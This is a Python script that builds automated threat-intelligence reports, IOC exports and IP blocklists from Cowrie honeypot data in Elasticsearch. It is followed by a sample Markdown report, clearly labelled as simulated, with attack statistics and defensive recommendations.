def threat_level(t: dict) -> str:
    if t["critical_events"] > 0:
        return "CRITICAL"
    if t["high_risk_events"] > 0:
        return "HIGH"
    if t["login_success"] > 0:
        return "MEDIUM"
    return "LOW"

def pct_change(cur, prev):
    if not prev:
        return None
    return round((cur - prev) * 100.0 / prev, 1)

def parse_report(resp: dict, prev: dict, start: datetime, end: datetime, hours: float, exclude_simulated: bool) -> dict:
    a = resp.get("aggregations", {})
    actions = {b["key"]: b["doc_count"] for b in _buckets(a.get("actions"))}
    risk_levels = {b["key"]: b["doc_count"] for b in _buckets(a.get("risk_levels"))}
    pa = prev.get("aggregations", {})
    totals = {
        "events": _total(resp),
        "unique_ips": int(_val(a, "unique_ips")),
        "sessions": int(_val(a, "sessions")),
        "login_failed": actions.get("cowrie.login.failed", 0),
        "login_success": actions.get("cowrie.login.success", 0),
        "commands": actions.get("cowrie.command.input", 0),
        "downloads": actions.get("cowrie.session.file_download", 0),
        "uploads": actions.get("cowrie.session.file_upload", 0),
        "high_risk_events": (a.get("high_risk") or {}).get("doc_count", 0),
        "high_risk_ips": int(_val((a.get("high_risk") or {}), "ips")),
        "critical_events": risk_levels.get("critical", 0),
        "malicious_ips": int(_val((a.get("malicious_ips") or {}), "ips")),
    }
    totals["login_attempts"] = totals["login_failed"] + totals["login_success"]
    previous = {
        "events": _total(prev), "unique_ips": int(_val(pa, "unique_ips")),
        "high_risk_events": (pa.get("high_risk") or {}).get("doc_count", 0),
        "malicious_ips": int(_val((pa.get("malicious_ips") or {}), "ips")),
    }
    timeline = [{"ts": b["key"], "label": b.get("key_as_string", ""), "count": b["doc_count"]}
                for b in _buckets(a.get("timeline"))]

    report = {
        "meta": {
            "generated_at": iso(datetime.now(timezone.utc)), "start": iso(start), "end": iso(end),
            "hours": hours, "index": INDEX, "exclude_simulated": exclude_simulated,
            "simulated_events": (a.get("simulated") or {}).get("doc_count", 0),
        },
        "totals": totals, "previous": previous,
        "deltas": {k: pct_change(totals[k], previous[k]) for k in previous},
        "timeline": timeline,
        "top_ips_risk": [_ip_row(b) for b in _buckets(a.get("top_ips_risk"))],
        "top_ips_volume": [_ip_row(b) for b in _buckets(a.get("top_ips_volume"))],
        "countries": [{"key": b["key"], "count": b["doc_count"], "ips": int(_val(b, "ips"))} for b in _buckets(a.get("countries"))],
        "asns": [{"key": b["key"], "count": b["doc_count"], "ips": int(_val(b, "ips")), "max_risk": int(_val(b, "max_risk"))}
                 for b in _buckets(a.get("asns"))],
        "ports": _kv((a.get("ports") or {}).get("t")),
        "protocols": _kv((a.get("protocols") or {}).get("t")),
        "usernames": _kv(a.get("usernames")), "passwords": _kv(a.get("passwords")),
        "credentials": _kv(a.get("credentials")), "commands": _kv(a.get("commands")),
        "techniques": [{"id": b["key"], "name": _top(b, "name") or "", "count": b["doc_count"]} for b in _buckets(a.get("techniques"))],
        "malware": [{"sha256": b["key"], "events": b["doc_count"], "ips": int(_val(b, "ips")),
                     "vt_malicious": int(_val(b, "vt")), "family": _top(b, "family") or "",
                     "urls": [u["key"] for u in _buckets(b.get("urls"))]} for b in _buckets(a.get("malware"))],
        "urls": _kv(a.get("urls")),
        "hassh": [{"hash": b["key"], "count": b["doc_count"], "ips": int(_val(b, "ips")), "client": _top(b, "client") or ""}
                  for b in _buckets(a.get("hassh"))],
        "verdicts": [{"key": b["key"], "count": b["doc_count"], "ips": int(_val(b, "ips"))} for b in _buckets(a.get("verdicts"))],
        "otx_tags": _kv(a.get("otx_tags")),
        "risk_levels": risk_levels,
    }
    report["threat_level"] = threat_level(totals)
    report["summary"] = executive_summary(report)
    report["recommendations"] = recommendations(report)
    return report

def executive_summary(r: dict) -> list:
    t, d, lines = r["totals"], r["deltas"], []

    def delta(k):
        v = d.get(k)
        return "" if v is None else f" ({v:+.1f}% vs previous period)"

    lines.append(f"The honeypot recorded {t['events']:,} events from {t['unique_ips']:,} unique source IPs in the last "
                 f"{r['meta']['hours']:g} hours{delta('unique_ips')}.")
    if r["countries"]:
        top = ", ".join(f"{c['key']} ({c['count']:,})" for c in r["countries"][:3])
        lines.append(f"Top origin countries by event volume: {top}.")
    if r["timeline"]:
        peak = max(r["timeline"], key=lambda x: x["count"])
        if peak["count"]:
            lines.append(f"Attack volume peaked at {peak['count']:,} events in the hour starting {peak['label'] or peak['ts']}.")
    if r["top_ips_risk"]:
        x = r["top_ips_risk"][0]
        lines.append(f"Highest-risk source: {x['ip']} ({x['country']}, {x['asn_org']}) - max risk {x['max_risk']}/100, "
                     f"{x['events']:,} events, TI verdict '{x['verdict']}'.")
    lines.append(f"{t['malicious_ips']:,} source IPs were rated 'malicious' by threat intelligence and {t['high_risk_events']:,} "
                 f"events scored >= {HIGH_RISK} risk ({t['critical_events']:,} critical){delta('high_risk_events')}.")
    if t["login_attempts"]:
        lines.append(f"{t['login_attempts']:,} login attempts were made; {t['login_success']:,} succeeded against the "
                     f"honeypot's deliberately weak accounts, after which attackers ran {t['commands']:,} shell commands.")
    if t["downloads"]:
        lines.append(f"{t['downloads']:,} malware download attempts were captured: {len(r['malware'])} distinct sample hash(es) "
                     f"and {len(r['urls'])} distinct payload URL(s).")
    if r["credentials"]:
        c = r["credentials"][0]
        lines.append(f"Most common credential pair: '{c['key']}' ({c['count']:,} attempts).")
    if r["meta"]["simulated_events"]:
        lines.append(f"NOTE: {r['meta']['simulated_events']:,} of these events are SIMULATED demo traffic (tag 'simulated'); "
                     f"their threat-intel enrichment is synthetic.")
    return lines

def recommendations(r: dict) -> list:
    recs = []
    block = [x for x in r["top_ips_risk"] if x["verdict"] in ("malicious", "suspicious") or x["max_risk"] >= HIGH_RISK]
    if block:
        recs.append(f"Block or rate-limit the {len(block)} high-risk source IPs listed in the IOC export "
                    f"(blocklist file). IPs with verdict 'benign' (CDNs, search engines, whitelisted scanners) are excluded "
                    f"to avoid false positives.")
    if r["totals"]["login_success"]:
        recs.append("Audit production SSH/Telnet for the credential pairs seen here; disable password authentication, "
                    "enforce keys/MFA and remove default accounts (root, admin, pi, ubuntu).")
    if r["malware"]:
        recs.append("Search EDR/SIEM for the listed SHA-256 hashes and download URLs; add the URLs to egress/web-proxy deny lists.")
    if r["hassh"]:
        recs.append("Alert on the listed HASSH client fingerprints in production SSH logs - they identify attacker tooling "
                    "independent of source IP.")
    if any(t["id"] in ("T1098.004", "T1053.003") for t in r["techniques"]):
        recs.append("Attackers attempted persistence (SSH authorized_keys / cron): monitor those paths with file-integrity monitoring.")
    if not recs:
        recs.append("No high-risk activity in this period. Keep monitoring and review the top sources for early indicators.")
    return recs

class ElasticsearchSource:
    def __init__(self, client, index: str = INDEX):
        self.client, self.index = client, index

    def fetch(self, hours: float, exclude_simulated: bool = False, now: datetime | None = None) -> dict:
        end = now or datetime.now(timezone.utc)
        start = end - timedelta(hours=hours)
        interval = "1h" if hours <= 72 else "1d"
        cur = self.client.search(index=self.index, size=0, track_total_hits=True,
                                 query=build_query(start, end, exclude_simulated), aggs=build_aggs(start, end, interval))
        pstart = start - timedelta(hours=hours)
        prev = self.client.search(index=self.index, size=0, track_total_hits=True,
                                  query=build_query(pstart, start, exclude_simulated), aggs=build_prev_aggs())
        return parse_report(cur, prev, start, end, hours, exclude_simulated)

def make_client():
    from elasticsearch import Elasticsearch

    url = os.environ.get("ES_URL", "http://localhost:9200")
    kw = {"request_timeout": 60}
    user, pwd = os.environ.get("ES_USER"), os.environ.get("ES_PASSWORD")
    if user and pwd:
        kw["basic_auth"] = (user, pwd)
    if url.startswith("https"):
        if os.environ.get("ES_CA_CERT"):
            kw["ca_certs"] = os.environ["ES_CA_CERT"]
        kw["verify_certs"] = os.environ.get("ES_VERIFY_CERTS", "true").lower() != "false"
    return Elasticsearch(url, **kw)

# =============================================================================
# 3. PRESENTATION LAYER
# =============================================================================
def fmt_ts(s: str) -> str:
    return s.replace("T", " ").replace(".000Z", " UTC")

def short(s, n=70) -> str:
    s = str(s)
    return s if len(s) <= n else s[: n - 3] + "..."

def md_cell(v) -> str:
    return str(v).replace("|", "\\|").replace("\n", " ").replace("`", "'")

def md_table(headers, rows) -> str:
    if not rows:
        return "_No data in this period._\n"
    out = ["| " + " | ".join(headers) + " |", "|" + "|".join("---" for _ in headers) + "|"]
    out += ["| " + " | ".join(md_cell(c) for c in row) + " |" for row in rows]
    return "\n".join(out) + "\n"

def _ip_table_rows(rows):
    return [[x["ip"], x["country"], short(x["asn_org"], 28), x["events"], x["max_risk"], x["verdict"],
             "-" if x["abuse_score"] is None else x["abuse_score"], ", ".join(x["tags"]) or "-"] for x in rows]

IP_HEADERS = ["IP", "Country", "ASN org", "Events", "Max risk", "TI verdict", "AbuseIPDB", "Tags"]

def sections(r: dict):
    """Single definition of the report body, shared by the Markdown/HTML/PDF renderers."""
    t = r["totals"]
    yield "Key metrics", ("kv", [
        ("Total events", f"{t['events']:,}"), ("Unique attacker IPs", f"{t['unique_ips']:,}"),
        ("Attack sessions", f"{t['sessions']:,}"), ("Login attempts (success)", f"{t['login_attempts']:,} ({t['login_success']:,})"),
        ("Shell commands", f"{t['commands']:,}"), ("Malware downloads", f"{t['downloads']:,}"),
        ("High-risk events (>=70)", f"{t['high_risk_events']:,}"), ("Malicious IPs (TI)", f"{t['malicious_ips']:,}")])
    yield "Top 10 IOC source IPs (ranked by risk)", ("table", IP_HEADERS, _ip_table_rows(r["top_ips_risk"][:10]))
    yield "Top attackers by volume", ("table", IP_HEADERS, _ip_table_rows(r["top_ips_volume"][:10]))
    yield "Attack origin - countries", ("table", ["Country", "Events", "Unique IPs"],
                                        [[c["key"], c["count"], c["ips"]] for c in r["countries"]])
    yield "Top ASNs", ("table", ["ASN organisation", "Events", "Unique IPs", "Max risk"],
                       [[short(a["key"], 45), a["count"], a["ips"], a["max_risk"]] for a in r["asns"]])
    yield "Targeted ports and protocols", ("table", ["Port", "Connections"], [[p["key"], p["count"]] for p in r["ports"]])
    yield "Protocols", ("table", ["Protocol", "Connections"], [[p["key"], p["count"]] for p in r["protocols"]])
    yield "Credentials attempted", ("table", ["Username/password pair", "Attempts"],
                                    [[c["key"], c["count"]] for c in r["credentials"]])
    yield "Top usernames", ("table", ["Username", "Attempts"], [[c["key"], c["count"]] for c in r["usernames"]])
    yield "Top passwords", ("table", ["Password", "Attempts"], [[c["key"], c["count"]] for c in r["passwords"]])
    yield "Commands executed in the honeypot shell", ("table", ["Command", "Count"],
                                                      [[short(c["key"], 90), c["count"]] for c in r["commands"]])
    yield "Malware IOCs (SHA-256)", ("table", ["SHA-256", "Events", "IPs", "VT detections", "Family", "Source URL"],
                                     [[m["sha256"], m["events"], m["ips"], m["vt_malicious"], m["family"] or "-",
                                       short(m["urls"][0], 40) if m["urls"] else "-"] for m in r["malware"]])
    yield "Payload URLs", ("table", ["URL", "Downloads"], [[short(u["key"], 80), u["count"]] for u in r["urls"]])
    yield "MITRE ATT&CK techniques", ("table", ["ID", "Technique", "Events"],
                                      [[x["id"], x["name"], x["count"]] for x in r["techniques"]])
    yield "SSH client fingerprints (HASSH)", ("table", ["HASSH", "Client", "Events", "IPs"],
                                              [[h["hash"], h["client"] or "-", h["count"], h["ips"]] for h in r["hassh"]])
    yield "Threat-intel verdict distribution", ("table", ["Verdict", "Events", "Unique IPs"],
                                                [[v["key"], v["count"], v["ips"]] for v in r["verdicts"]])
    yield "OTX threat tags", ("table", ["Tag", "Events"], [[x["key"], x["count"]] for x in r["otx_tags"]])

def render_markdown(r: dict) -> str:
    m = r["meta"]
    out = [f"# Threat Intelligence Report", "",
           f"**Period:** {fmt_ts(m['start'])} -> {fmt_ts(m['end'])} ({m['hours']:g} h)  ",
           f"**Generated:** {fmt_ts(m['generated_at'])}  ", f"**Overall threat level:** **{r['threat_level']}**", "",
           "## Executive summary", ""]
    out += [f"- {s}" for s in r["summary"]]
    out += ["", "## Recommended actions", ""]
    out += [f"{i}. {s}" for i, s in enumerate(r["recommendations"], 1)]
    for title, body in sections(r):
        out += ["", f"## {title}", ""]
        if body[0] == "kv":
            out.append(md_table(["Metric", "Value"], body[1]))
        else:
            out.append(md_table(body[1], body[2]))
    out += ["", "---", "Risk score = round(0.6 x event severity + 0.4 x threat-intel score); "
            "TI score = max(AbuseIPDB confidence, 10 x VirusTotal detections, 10 x OTX pulses). "
            "Verdict: malicious >= 75, suspicious >= 25; CDN/whitelisted sources are 'benign'.", ""]
    return "\n".join(out)

def svg_bars(timeline, width=900, height=160) -> str:
    if not timeline:
        return ""
    vals = [p["count"] for p in timeline]
    mx = max(vals) or 1
    n = len(vals)
    bw = width / n
    bars = []
    for i, p in enumerate(timeline):
        h = (p["count"] / mx) * (height - 24)
        bars.append(f'<rect x="{i * bw + 1:.1f}" y="{height - 16 - h:.1f}" width="{max(bw - 2, 1):.1f}" height="{h:.1f}" '
                    f'fill="#2f6fed"><title>{html.escape(p["label"] or str(p["ts"]))}: {p["count"]}</title></rect>')
    return (f'<svg viewBox="0 0 {width} {height}" width="100%" role="img" aria-label="Attack events per hour">'
            f'{"".join(bars)}<text x="0" y="{height - 2}" font-size="10" fill="#666">{html.escape(fmt_ts(timeline[0]["label"]))}</text>'
            f'<text x="{width}" y="{height - 2}" font-size="10" text-anchor="end" fill="#666">peak {mx:,}/interval</text></svg>')

HTML_CSS = """
:root{--bg:#fff;--fg:#1b2430;--muted:#5b6675;--line:#dfe4ea;--accent:#2f6fed;--card:#f6f8fb}
@media (prefers-color-scheme:dark){:root{--bg:#10151c;--fg:#e6ebf2;--muted:#9aa6b6;--line:#26303c;--accent:#6ea0ff;--card:#171e27}}
body{font:14px/1.5 -apple-system,Segoe UI,Roboto,Helvetica,Arial,sans-serif;background:var(--bg);color:var(--fg);margin:0;padding:24px 16px}
main{max-width:1000px;margin:0 auto}h1{margin:0 0 4px}h2{margin:28px 0 8px;font-size:17px;border-bottom:1px solid var(--line);padding-bottom:4px}
.meta{color:var(--muted)}.level{display:inline-block;padding:2px 10px;border-radius:12px;color:#fff;font-weight:600}
.CRITICAL{background:#c62828}.HIGH{background:#e65100}.MEDIUM{background:#b58900}.LOW{background:#2e7d32}
.kpis{display:grid;grid-template-columns:repeat(auto-fit,minmax(150px,1fr));gap:10px}.kpi{background:var(--card);border:1px solid var(--line);border-radius:8px;padding:10px}
.kpi b{display:block;font-size:20px}.kpi span{color:var(--muted);font-size:12px}
table{border-collapse:collapse;width:100%;font-size:13px}th,td{border-bottom:1px solid var(--line);padding:5px 8px;text-align:left;vertical-align:top;word-break:break-word}
th{background:var(--card)}td.n{font-variant-numeric:tabular-nums}.box{background:var(--card);border:1px solid var(--line);border-radius:8px;padding:8px 14px}
.warn{border-left:4px solid #e65100}
"""

def render_html(r: dict) -> str:
    m, e = r["meta"], html.escape
    parts = [f"<!doctype html><html lang='en'><head><meta charset='utf-8'><meta name='viewport' content='width=device-width,initial-scale=1'>"
             f"<title>Threat Intelligence Report</title></head><body><main>",
             "<h1>Threat Intelligence Report</h1>",
             f"
Period {e(fmt_ts(m['start']))} &rarr; {e(fmt_ts(m['end']))} ({m['hours']:g} h) &middot; generated "
             f"{e(fmt_ts(m['generated_at']))} &middot; threat level {r['threat_level']}
"]
    if m["simulated_events"]:
        parts.append(f"
<b>Demo data:</b> {m['simulated_events']:,} events in this period are simulated; "
                     f"their threat-intel enrichment is synthetic.
")
    parts.append("<h2>Executive summary</h2><ul>" + "".join(f"<li>{e(s)}</li>" for s in r["summary"]) + "</ul>")
    parts.append("<h2>Recommended actions</h2><ol>" + "".join(f"<li>{e(s)}</li>" for s in r["recommendations"]) + "</ol>")
    parts.append("<h2>Attack timeline</h2>" + svg_bars(r["timeline"]))
    for title, body in sections(r):
        parts.append(f"<h2>{e(title)}</h2>")
        if body[0] == "kv":
            parts.append("
" + "".join(f"
<b>{e(v)}</b>{e(k)}
" for k, v in body[1]) + "
")
        elif not body[2]:
            parts.append("
No data in this period.
")
        else:
            parts.append("<table><thead><tr>" + "".join(f"<th>{e(h)}</th>" for h in body[1]) + "</tr></thead><tbody>"
                         + "".join("<tr>" + "".join(f"<td{' class=n' if isinstance(c, int) else ''}>{e(str(c))}</td>" for c in row) + "</tr>"
                                   for row in body[2]) + "</tbody></table>")
    parts.append("
Risk score = round(0.6 &times; event severity + 0.4 &times; TI score). Verdict: malicious &ge; 75, "
                 "suspicious &ge; 25; CDN/whitelisted sources are 'benign'.
</main></body></html>")
    return "".join(parts)

def render_pdf(r: dict, path: str) -> None:
    from reportlab.graphics.charts.barcharts import VerticalBarChart
    from reportlab.graphics.shapes import Drawing
    from reportlab.lib import colors
    from reportlab.lib.pagesizes import A4
    from reportlab.lib.styles import ParagraphStyle, getSampleStyleSheet
    from reportlab.lib.units import mm
    from reportlab.platypus import Paragraph, SimpleDocTemplate, Spacer, Table, TableStyle

    def clean(s):  # core PDF fonts are Latin-1 only
        return xml_escape(str(s).encode("latin-1", "replace").decode("latin-1"))

    ss = getSampleStyleSheet()
    body = ParagraphStyle("b", parent=ss["BodyText"], fontSize=9.5, leading=13)
    cell = ParagraphStyle("c", parent=body, fontSize=7.5, leading=9.5)
    head = ParagraphStyle("h", parent=cell, textColor=colors.white, fontName="Helvetica-Bold")
    h2 = ParagraphStyle("h2", parent=ss["Heading2"], fontSize=12.5, spaceBefore=12, spaceAfter=4, textColor=colors.HexColor("#1b2430"))
    level_colors = {"CRITICAL": "#c62828", "HIGH": "#e65100", "MEDIUM": "#b58900", "LOW": "#2e7d32"}
    m = r["meta"]

    def tbl(headers, rows, widths=None):
        data = [[Paragraph(clean(h), head) for h in headers]] + [[Paragraph(clean(c), cell) for c in row] for row in rows]
        t = Table(data, colWidths=widths, repeatRows=1)
        t.setStyle(TableStyle([("BACKGROUND", (0, 0), (-1, 0), colors.HexColor("#2f6fed")),
                               ("ROWBACKGROUNDS", (0, 1), (-1, -1), [colors.white, colors.HexColor("#f2f5fa")]),
                               ("GRID", (0, 0), (-1, -1), 0.25, colors.HexColor("#cfd6df")), ("VALIGN", (0, 0), (-1, -1), "TOP"),
                               ("TOPPADDING", (0, 0), (-1, -1), 2), ("BOTTOMPADDING", (0, 0), (-1, -1), 2)]))
        return t

    story = [Paragraph("Threat Intelligence Report", ss["Title"]),
             Paragraph(clean(f"Period {fmt_ts(m['start'])} -> {fmt_ts(m['end'])} ({m['hours']:g} h) | generated {fmt_ts(m['generated_at'])}"), body),
             Paragraph(f"Overall threat level: <b>{r['threat_level']}</b>", body)]
    if m["simulated_events"]:
        story.append(Paragraph(clean(f"Demo data: {m['simulated_events']:,} events are simulated; their threat-intel enrichment is synthetic."), body))
    story += [Paragraph("Executive summary", h2)] + [Paragraph("&bull; " + clean(s), body) for s in r["summary"]]
    story += [Paragraph("Recommended actions", h2)] + [Paragraph(f"{i}. " + clean(s), body) for i, s in enumerate(r["recommendations"], 1)]

    if r["timeline"]:
        story.append(Paragraph("Attack timeline (events per interval)", h2))
        d = Drawing(500, 130)
        ch = VerticalBarChart()
        ch.x, ch.y, ch.width, ch.height = 30, 20, 455, 100
        ch.data = [[p["count"] for p in r["timeline"]]]
        ch.bars[0].fillColor = colors.HexColor("#2f6fed")
        ch.bars.strokeColor = None
        ch.categoryAxis.labels.boxAnchor = "n"
        ch.categoryAxis.labels.fontSize = 6
        step = max(1, len(r["timeline"]) // 8)
        ch.categoryAxis.categoryNames = [(p["label"][11:16] if i % step == 0 and p["label"] else "") for i, p in enumerate(r["timeline"])]
        ch.valueAxis.labels.fontSize = 6
        ch.valueAxis.valueMin = 0
        d.add(ch)
        story.append(d)

    for title, b in sections(r):
        story.append(Paragraph(clean(title), h2))
        if b[0] == "kv":
            rows = b[1]
            data = [[Paragraph(f"<b>{clean(v)}</b> {clean(k)}", body) for k, v in rows[i:i + 4]]
                    for i in range(0, len(rows), 4)]
            t = Table(data, colWidths=[44 * mm] * 4)
            t.setStyle(TableStyle([("BOX", (0, 0), (-1, -1), 0.25, colors.HexColor("#cfd6df")),
                                   ("INNERGRID", (0, 0), (-1, -1), 0.25, colors.HexColor("#cfd6df")),
                                   ("BACKGROUND", (0, 0), (-1, -1), colors.HexColor("#f6f8fb"))]))
            story.append(t)
        elif not b[2]:
            story.append(Paragraph("No data in this period.", body))
        else:
            story.append(tbl(b[1], b[2]))
        story.append(Spacer(1, 2))

    def footer(canvas, doc):
        canvas.saveState()
        canvas.setFont("Helvetica", 7)
        canvas.setFillColor(colors.HexColor("#5b6675"))
        canvas.drawString(15 * mm, 8 * mm, "Threat Intelligence Dashboard - automated report")
        canvas.drawRightString(195 * mm, 8 * mm, f"Page {doc.page}")
        canvas.restoreState()

    SimpleDocTemplate(path, pagesize=A4, leftMargin=15 * mm, rightMargin=15 * mm, topMargin=14 * mm, bottomMargin=16 * mm,
                      title="Threat Intelligence Report", author="Threat Intelligence Dashboard").build(story, onFirstPage=footer, onLaterPages=footer)

# =============================================================================
# 4. IOC EXPORT
# =============================================================================
def ioc_rows(r: dict) -> list:
    rows = []
    for x in r["top_ips_risk"]:
        rows.append({"type": "ipv6" if ":" in str(x["ip"]) else "ipv4", "indicator": x["ip"], "events": x["events"],
                     "max_risk": x["max_risk"], "verdict": x["verdict"], "abuse_score": x["abuse_score"] if x["abuse_score"] is not None else "",
                     "context": f"{x['country']} / {x['asn_org']}"})
    for m_ in r["malware"]:
        rows.append({"type": "sha256", "indicator": m_["sha256"], "events": m_["events"], "max_risk": "",
                     "verdict": "malicious" if m_["vt_malicious"] >= 5 else "unknown", "abuse_score": "",
                     "context": f"VT detections={m_['vt_malicious']} family={m_['family'] or '-'}"})
    for u in r["urls"]:
        rows.append({"type": "url", "indicator": u["key"], "events": u["count"], "max_risk": "", "verdict": "", "abuse_score": "", "context": "payload URL"})
    return rows

def blocklist(r: dict) -> list:
    """Only IPs that are risky AND not 'benign' (false-positive reduction)."""
    return sorted({x["ip"] for x in r["top_ips_risk"]
                   if x["verdict"] != "benign" and (x["verdict"] in ("malicious", "suspicious") or x["max_risk"] >= HIGH_RISK)})

def export_iocs(r: dict, out_dir: str, stamp: str) -> list:
    rows = ioc_rows(r)
    p_csv, p_txt = os.path.join(out_dir, f"iocs_{stamp}.csv"), os.path.join(out_dir, f"blocklist_ips_{stamp}.txt")
    with open(p_csv, "w", newline="", encoding="utf-8") as fh:
        w = csv.DictWriter(fh, fieldnames=["type", "indicator", "events", "max_risk", "verdict", "abuse_score", "context"])
        w.writeheader()
        w.writerows(rows)
    with open(p_txt, "w", encoding="utf-8", newline="\n") as fh:
        fh.write("\n".join(blocklist(r)) + ("\n" if blocklist(r) else ""))
    return [p_csv, p_txt]

# =============================================================================
# 5. AUTOMATION LAYER
# =============================================================================
def write_reports(report: dict, out_dir: str, formats: list, stamp: str | None = None) -> list:
    os.makedirs(out_dir, exist_ok=True)
    stamp = stamp or datetime.now(timezone.utc).strftime("%Y%m%d_%H%M%S")
    written = []
    def write_text(path, text):
        with open(path, "w", encoding="utf-8", newline="\n") as fh:
            fh.write(text)

    renderers = {"md": lambda p: write_text(p, render_markdown(report)),
                 "html": lambda p: write_text(p, render_html(report)),
                 "pdf": lambda p: render_pdf(report, p)}
    for f in formats:
        path = os.path.join(out_dir, f"threat_report_{stamp}.{f}")
        renderers[f](path)
        written.append(path)
        latest = os.path.join(out_dir, f"latest.{f}")
        try:
            with open(path, "rb") as s, open(latest, "wb") as d:
                d.write(s.read())
        except OSError:
            pass
    written += export_iocs(report, out_dir, stamp)
    with open(os.path.join(out_dir, f"threat_report_{stamp}.json"), "w", encoding="utf-8", newline="\n") as fh:
        json.dump(report, fh, indent=2, default=str)
    return written

def run_once(args, client=None) -> list:
    client = client or make_client()
    report = ElasticsearchSource(client).fetch(args.hours, args.exclude_simulated)
    files = write_reports(report, args.out, args.formats)
    print(f"[report] threat level {report['threat_level']} - {report['totals']['events']:,} events, "
          f"{report['totals']['unique_ips']:,} IPs, {report['totals']['malicious_ips']:,} malicious", flush=True)
    for f in files:
        print(f"[report]   wrote {f}", flush=True)
    return files

def seconds_until(hhmm: str, tzname: str, now: datetime | None = None) -> float:
    from zoneinfo import ZoneInfo

    tz = ZoneInfo(tzname)
    now = (now or datetime.now(tz)).astimezone(tz)
    h, m = (int(x) for x in hhmm.split(":"))
    nxt = now.replace(hour=h, minute=m, second=0, microsecond=0)
    if nxt <= now:
        nxt += timedelta(days=1)
    return (nxt - now).total_seconds()

def run_daily_loop(args) -> None:
    tzname = os.environ.get("REPORT_TZ", "UTC")
    print(f"[report] scheduler: daily at {args.daily_at} ({tzname}); output {args.out}", flush=True)
    while True:
        wait = seconds_until(args.daily_at, tzname)
        while wait > 0:
            time.sleep(min(wait, 60))
            wait -= 60
        try:
            run_once(args)
        except Exception:  # keep the scheduler alive across transient ES outages
            traceback.print_exc()
        time.sleep(61)

def parse_args(argv=None):
    ap = argparse.ArgumentParser(description="Generate the automated threat-intelligence report.")
    ap.add_argument("--hours", type=float, default=24, help="look-back window in hours (default 24)")
    ap.add_argument("--out", default=os.environ.get("REPORT_DIR", "./reports"), help="output directory")
    ap.add_argument("--formats", default="md,html,pdf", help="comma list of md,html,pdf")
    ap.add_argument("--exclude-simulated", action="store_true", help="ignore events tagged 'simulated'")
    ap.add_argument("--daily-at", metavar="HH:MM", help="run forever, generating a report daily at this local time (REPORT_TZ)")
    ap.add_argument("--print-query", action="store_true", help="print the Elasticsearch DSL and exit")
    a = ap.parse_args(argv)
    a.formats = [f.strip() for f in a.formats.split(",") if f.strip()]
    bad = [f for f in a.formats if f not in ("md", "html", "pdf")]
    if bad:
        ap.error(f"unknown format(s): {bad}")
    return a

def main(argv=None) -> int:
    args = parse_args(argv)
    if args.print_query:
        end = datetime.now(timezone.utc)
        start = end - timedelta(hours=args.hours)
        print(json.dumps({"index": INDEX, "size": 0, "query": build_query(start, end, args.exclude_simulated),
                          "aggs": build_aggs(start, end)}, indent=2))
        return 0
    if args.daily_at:
        run_daily_loop(args)
        return 0
    try:
        run_once(args)
    except Exception as exc:
        print(f"[report] FAILED: {exc}", file=sys.stderr)
        if os.environ.get("DEBUG"):
            traceback.print_exc()
        return 1
    return 0

if __name__ == "__main__":
    sys.exit(main())
------------------------------------------------------------------------------
END OF FILE: tools/generate_report.py
------------------------------------------------------------------------------

Sample output (generated from the test fixture; a real run uses live data):

A sample generated report (Markdown version) is included below; the PDF/HTML
versions are in docs/sample_report/.

------------------------------------------------------------------------------
FILE: docs/sample_report/threat_report_SAMPLE.md   (167 lines)
------------------------------------------------------------------------------
# Threat Intelligence Report

**Period:** 2026-11-11 12:00:00 UTC -> 2026-11-12 12:00:00 UTC (24 h)  
**Generated:** 2026-11-13 00:24:07 UTC  
**Overall threat level:** **CRITICAL**

## Executive summary

- The honeypot recorded 276 events from 31 unique source IPs in the last 24 hours (+24.0% vs previous period).
- Top origin countries by event volume: Netherlands (100), Brazil (60), China (40).
- Attack volume peaked at 120 events in the hour starting 2026-11-12T03:00:00.000Z.
- Highest-risk source: 198.51.100.10 (Netherlands, Evil Hosting BV) - max risk 94/100, 90 events, TI verdict 'malicious'.
- 6 source IPs were rated 'malicious' by threat intelligence and 36 events scored >= 70 risk (12 critical) (+20.0% vs previous period).
- 162 login attempts were made; 12 succeeded against the honeypot's deliberately weak accounts, after which attackers ran 40 shell commands.
- 6 malware download attempts were captured: 1 distinct sample hash(es) and 1 distinct payload URL(s).
- Most common credential pair: 'root:123456' (45 attempts).
- NOTE: 276 of these events are SIMULATED demo traffic (tag 'simulated'); their threat-intel enrichment is synthetic.

## Recommended actions

1. Block or rate-limit the 2 high-risk source IPs listed in the IOC export (blocklist file). IPs with verdict 'benign' (CDNs, search engines, whitelisted scanners) are excluded to avoid false positives.
2. Audit production SSH/Telnet for the credential pairs seen here; disable password authentication, enforce keys/MFA and remove default accounts (root, admin, pi, ubuntu).
3. Search EDR/SIEM for the listed SHA-256 hashes and download URLs; add the URLs to egress/web-proxy deny lists.
4. Alert on the listed HASSH client fingerprints in production SSH logs - they identify attacker tooling independent of source IP.
5. Attackers attempted persistence (SSH authorized_keys / cron): monitor those paths with file-integrity monitoring.

## Key metrics

| Metric | Value |
|---|---|
| Total events | 276 |
| Unique attacker IPs | 31 |
| Attack sessions | 60 |
| Login attempts (success) | 162 (12) |
| Shell commands | 40 |
| Malware downloads | 6 |
| High-risk events (>=70) | 36 |
| Malicious IPs (TI) | 6 |

## Top 10 IOC source IPs (ranked by risk)

| IP | Country | ASN org | Events | Max risk | TI verdict | AbuseIPDB | Tags |
|---|---|---|---|---|---|---|---|
| 198.51.100.10 | Netherlands | Evil Hosting BV | 90 | 94 | malicious | 98 | mirai, botnet |
| 192.0.2.66 | United States | Search Engine LLC | 20 | 15 | benign | 5 | - |
| 203.0.113.45 | Brazil | Telecom SA | 30 | 72 | suspicious | 40 | - |

## Top attackers by volume

| IP | Country | ASN org | Events | Max risk | TI verdict | AbuseIPDB | Tags |
|---|---|---|---|---|---|---|---|
| 198.51.100.10 | Netherlands | Evil Hosting BV | 90 | 94 | malicious | 98 | - |

## Attack origin - countries

| Country | Events | Unique IPs |
|---|---|---|
| Netherlands | 100 | 5 |
| Brazil | 60 | 9 |
| China | 40 | 11 |

## Top ASNs

| ASN organisation | Events | Unique IPs | Max risk |
|---|---|---|---|
| Evil Hosting BV | 100 | 5 | 94 |

## Targeted ports and protocols

| Port | Connections |
|---|---|
| 2222 | 45 |
| 2223 | 15 |

## Protocols

| Protocol | Connections |
|---|---|
| ssh | 45 |
| telnet | 15 |

## Credentials attempted

| Username/password pair | Attempts |
|---|---|
| root:123456 | 45 |
| admin:admin | 20 |

## Top usernames

| Username | Attempts |
|---|---|
| root | 80 |
| admin | 40 |

## Top passwords

| Password | Attempts |
|---|---|
| 123456 | 50 |
| admin | 30 |

## Commands executed in the honeypot shell

| Command | Count |
|---|---|
| uname -a | 20 |
